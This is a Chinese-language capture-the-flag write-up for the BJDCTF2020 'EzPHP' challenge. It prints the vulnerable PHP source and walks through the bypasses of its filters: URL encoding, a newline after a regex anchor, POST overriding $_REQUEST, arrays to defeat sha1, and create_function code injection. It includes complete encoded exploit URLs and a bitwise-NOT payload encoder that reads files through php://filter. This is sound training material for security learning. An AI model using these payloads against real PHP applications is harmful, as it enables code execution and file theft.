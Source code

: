 # [BJDCTF2020]EzPHP（学习）
![](<./img/Pasted image 20230128091647.png>)

![](<./img/Pasted image 20230128091626.png>)

![](<./img/Pasted image 20230128091725.png>)

![](<./img/Pasted image 20230128091954.png>)

```
/1nD3x.php
```

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

这题真的是体现了不少`php`的特性qaq

# 绕过`$_SERVER['QUERY_STRING']`的过滤

```php
if($_SERVER) { 
    if (preg_match('...', $_SERVER['QUERY_STRING']))  
        die('You seem to want to do something bad?'); 
}
```

由于`$_SERVER['QUERY_STRING']`不对查询字符串进行`url`解码，而`$_GET`会进行`url`解码，因此可以通过`url`编码绕过过滤

# 绕过`aqua_is_cute`

有圣人曰

![](<./img/Pasted image 20230128100732.png>)

（大雾）

又是一个看似矛盾的判断

```php
if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') {}
```

`/^...$/`这种形式也能完全匹配字符串最后带换行符的情况，也就是可以通过加上`%0a`绕过

# 不准`hate English`

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

`php`在同时接收到`url`的查询字符串以及`POST`传递的参数，且参数名相同时，优先采用`POST`的参数值作为`$_REQUEST`中的参数值

因此对于传递的所有`url`查询参数，只需`POST`一组参数名相同但值不包含字母的参数即可绕过

# `debu_debu_aqua`

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

常规的`data`伪协议绕过

# 绕过`sha1`

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

通过数组使`sha1`函数返回`false`

# `create_function`注入

`php`的`create_function`貌似是通过字符串拼接后调用`eval`来实现的（过于谔谔），于是可以通过`}`来使后面的代码变成顶级语句让`eval`来执行

```
/1nD3x.php?file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute%0a&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//
```

进行`url`编码

```
/1nD3x.php?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7D%76%61%72%5F%64%75%6D%70%28%67%65%74%5F%64%65%66%69%6E%65%64%5F%76%61%72%73%28%29%29%3B%2F%2F
```

同时`POST`这些东西

```
file=1&debu=1&shana=1&passwd=1&flag=1
```

---

```html
<img src="meaqua.png" width="650" height="650" alt="MeAqua天下第一!" />
```

![](<./img/Pasted image 20230128123734.png>)

~~美少女贴贴！~~

![](<./img/Pasted image 20230128124336.png>)

使用`php://filter`读取经过`base64`编码的`rea1fl4g.php`的内容并使用`require`包含到网页中

通过取反绕过过滤

```php
<?php
$payload = $argv[1];
print(urlencode(~$payload));
```

```php
require(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F)
```

```
/1nD3x.php?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7D%72%65%71%75%69%72%65(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F))%3B%2F%2F
```

![](<./img/Pasted image 20230128133626.png>)

```php
<html>
<head>
<meta charset="utf-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no">
<title>Real_Flag In Here!!!</title>
</head>
</html>
<?php
	echo "咦，你居然找到我了？！不过看到这句话也不代表你就能拿到flag哦！";
	$f4ke_flag = "BJD{1am_a_fake_f41111g23333}";
	$rea1_f1114g = "flag{0689e68e-6604-4ff8-a924-af158fb5072e}";
	unset($rea1_f1114g);

```

#Web #PHP #特性 #绕过 #代码审计 #变量 #特殊 #create_function注入 